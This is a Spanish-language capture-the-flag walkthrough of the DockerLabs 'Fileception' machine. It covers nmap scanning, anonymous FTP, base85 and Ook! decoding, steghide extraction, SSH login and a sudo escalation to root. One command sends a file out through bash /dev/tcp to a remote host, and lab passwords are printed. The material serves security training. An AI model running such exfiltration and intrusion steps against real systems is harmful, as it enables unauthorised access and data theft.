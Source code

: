 #MAQUINA #DOCKERLABS #MEDIO 
#FTP_ANON #OOK
<hr>

# RECONOCIMIENTO

Vamos a resolver **Fileception** de la plataforma **DockerLabs**.

   ```bash

Máquina desplegada, su dirección IP es --> 172.17.0.2

```

Primero vamos a hacer un escaneo de puertos rápido:

```bash

nmap -sS -vvv -p- --min-rate 5000 -n -Pn 172.17.0.2
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-20 08:15 CET
Initiating ARP Ping Scan at 08:15
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 08:15, 0.04s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 08:15
Scanning 172.17.0.2 [65535 ports]
Discovered open port 80/tcp on 172.17.0.2
Discovered open port 22/tcp on 172.17.0.2
Discovered open port 21/tcp on 172.17.0.2
Completed SYN Stealth Scan at 08:15, 0.50s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.0000030s latency).
Scanned at 2025-03-20 08:15:25 CET for 0s
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 64
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.71 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)



```

- **`--open`**: Muestra solo los puertos abiertos en la salida.
- **`-sS`**: Especifica un escaneo TCP SYN, que es más sigiloso que un escaneo de conexión completa.
- **`--min-rate 5000`**: Establece la tasa mínima de paquetes enviados a 5000 por segundo, haciendo que el escaneo sea más rápido.
- **`-vvv`**: Aumenta el nivel de verbosidad, proporcionando una salida más detallada durante el escaneo.
- **`-n`**: No resuelve DNS; esto evita retrasos por búsquedas de nombres.
- **`-Pn`**: Trata el objetivo como si estuviera en línea; omite el descubrimiento de hosts.
- **`-p-`**: Escanea todos los 65535 puertos en lugar de solo los más comunes.

**Conclusiones:** El ttl al ser 64 nos dice que es una máquina **Linux**. Además, vemos que tiene el puerto **21(FTP)**, **80(HTTP)** y el puerto **22(SSH)** abiertos.

Ahora vamos a hacer un escaneo con mayor detalle:

   ```bash

nmap -sCV -p21,22,80 172.17.0.2                    
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-20 08:15 CET
Nmap scan report for rubikcube.dl (172.17.0.2)
Host is up (0.000017s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.5
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 172.17.0.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rwxrw-rw-    1 ftp      ftp         75372 Apr 27  2024 hello_peter.jpg [NSE: writeable]
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 61:8f:91:89:a7:0b:8e:17:b7:dd:38:e0:00:04:59:47 (ECDSA)
|_  256 8a:15:29:13:ec:aa:f6:20:ca:c8:80:14:56:05:ec:3b (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.57 seconds




```

   ```bash

nmap --script="http-enum" 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-20 08:16 CET
Nmap scan report for rubikcube.dl (172.17.0.2)
Host is up (0.0000030s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.46 seconds

                                                            


```

- **`-sC`**: Realiza un escaneo de scripts (Nmap Scripting Engine, NSE). Esto permite ejecutar scripts de `nmap` para obtener información adicional sobre los servicios detectados, como vulnerabilidades, configuraciones o detalles específicos de los mismos.
- **`-sV`**: Realiza la detección de versiones de servicios. Esto intenta identificar la versión exacta del software que está escuchando en un puerto abierto, lo que puede ayudar a determinar si hay vulnerabilidades conocidas.
- **`--script`**:  Ejecutar un script específico.

**Conclusiones:**   **ftp-anon**.

## HTTP (80)

Al hacer CTRL + U :
```bash
<!-- 
¡Hola, Peter!
¿Te acuerdas los libros que te presté de esteganografía? ¿A que estaban buenísimos?
Aquí te dejo una clave que usaras sabiamente en el momento justo. Por favor, no seas tan obvio, la vida no se trata de fuerza bruta.
@UX=h?T9oMA7]7hA7]:YE+*g/GAhM4
Solo te comento, recuerdo que usé este método porque casi nadie lo usa... o si. Lamentablemente, a mi también se me olvido. Solo recuerdo que era base
-->
```

Contra -> **base_85_decoded_password**

## FTP (21)

Al entrar con usuario anonymous, vemos una foto, utilizamos la contra :

```bash
steghide extract -sf hello_peter.jpg
Enter passphrase: 
wrote extracted data to "you_find_me.txt".

cat you_find_me.txt 
Hola, Peter!

Ook. Ook.  Ook. Ook.  Ook. Ook.  Ook. Ook.  Ook. Ook.  Ook. Ook.  Ook. Ook.  Ook. Ook.  Ook. Ook.  Ook. Ook.  Ook! Ook?  Ook. Ook?  Ook. Ook.  Ook. Ook?  Ook. Ook.  Ook. Ook.  Ook. Ook.  Ook. Ook?  Ook. Ook.  Ook. Ook.  Ook. Ook.  Ook. Ook.  Ook. Ook.  Ook. Ook.  Ook. Ook.  Ook. Ook?  Ook. Ook.  Ook. Ook.  Ook. Ook.  Ook. Ook.  Ook. Ook.  Ook. Ook.  Ook. Ook.  Ook. Ook.  Ook. Ook.  Ook. Ook.  Ook? Ook.  Ook? Ook.  Ook? Ook.  Ook? Ook.  Ook! Ook!  Ook? Ook!  Ook. Ook?  Ook. Ook?  Ook. Ook?  Ook! Ook!  Ook! Ook!  Ook! Ook!  Ook! Ook!  Ook! Ook!  Ook! Ook!  Ook! Ook!  Ook! Ook!  Ook! Ook!  Ook! Ook!  Ook! Ook!  Ook! Ook!  Ook! Ook!  Ook! Ook.  Ook. Ook?  Ook. Ook.  Ook. Ook.  Ook. Ook.  Ook. Ook.  Ook! Ook.  Ook? Ook.  Ook! Ook!  Ook! Ook.  Ook! Ook.  Ook. Ook.  Ook! Ook.  Ook. Ook?  Ook! Ook.  Ook? Ook.  Ook! Ook!  Ook! Ook!  Ook! Ook!  Ook! Ook!  Ook! Ook!  Ook! Ook!  Ook! Ook!  Ook! Ook.  Ook. Ook.  Ook! Ook.  Ook. Ook?  Ook! Ook.  Ook! Ook.  Ook. Ook.  Ook. Ook.  Ook. Ook.  Ook. Ook.  Ook. Ook.  Ook. Ook.  Ook. Ook.  Ook. Ook.  Ook. Ook.  Ook. Ook.  Ook. Ook.  Ook! Ook.  Ook! Ook.  Ook? Ook.  Ook! Ook!  Ook! Ook.  Ook. Ook.  Ook! Ook.
```

[Descifrar y probar código Ook!](https://www.cachesleuth.com/bfook.html)
Contra Peter ssh -> **9h889h23hhss2**

YA ESTAMOS COMO PETER.
# ESCALADA PRIVILEGIOS

Vemos lo siguiente:

```bash
peter@6cdc741bd646:~$ ls -la
total 16
drwxr-xr-x 1 root root 4096 Apr 27  2024 .
drwxr-xr-x 1 root root 4096 Apr 27  2024 ..
dr-xr-xr-x 1 ftp  ftp  4096 Apr 27  2024 files
-rw-r--r-- 1 root root   60 Apr 27  2024 nota_importante.txt
peter@6cdc741bd646:~$ cat nota_importante.txt 
NO REINICIES EL SISTEMA!!

HAY UN ARCHIVO IMPORTANTE EN TMP

peter@6cdc741bd646:/tmp$ ls -la
total 28
drwxrwxrwt 1 root   root    4096 Mar 20 08:12 .
drwxr-xr-x 1 root   root    4096 Mar 20 08:12 ..
-rw-r--r-- 1 ubuntu ubuntu 14558 Apr 27  2024 importante_octopus.odt
-rw-r--r-- 1 root   root     114 Apr 27  2024 recuerdos_del_sysadmin.txt
peter@6cdc741bd646:/tmp$ cat recuerdos_del_sysadmin.txt 
Cuando era niño recuerdo que, a los videos, para pasarlos de flv a mp4, solo cambiaba la extensión. Que iluso.

```

Nos pasamos el archivo y probamos extensiones para ver como se comporta:

```bash
peter@6cdc741bd646:/tmp$ cat importante_octopus.odt > /dev/tcp/172.17.0.1/443

mv prueba.odt prueba.zip 
```

Tenemos varios archivos, nos interesa el **leerme**:
```bash
Decirle a Peter que me pase el odt de mis anécdotas, en caso de que se me olviden mis credenciales de administrador... Él no sabe de Esteganografía, nunca sé lo imaginaria esto.
usuario: octopus
password: ODBoMjM4MGgzNHVvdW8zaDQ=
```

La contra esta se encuentra en **base64**

YA ESTAMOS COMO OCTOPUS.

Vamos a ver si tenemos permisos SUDO:

```bash
octopus@6cdc741bd646:/tmp$ sudo -l
Matching Defaults entries for octopus on 6cdc741bd646:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User octopus may run the following commands on 6cdc741bd646:
    (ALL) NOPASSWD: ALL
    (ALL : ALL) ALL


```

Vemos todo con permisos SUDO :
```bash
octopus@6cdc741bd646:/tmp$ sudo bash -p
[sudo] password for octopus: 
root@6cdc741bd646:/tmp# whoami
root
root@6cdc741bd646:/tmp# 

```

**YA ESTAMOS COMO ROOT.**


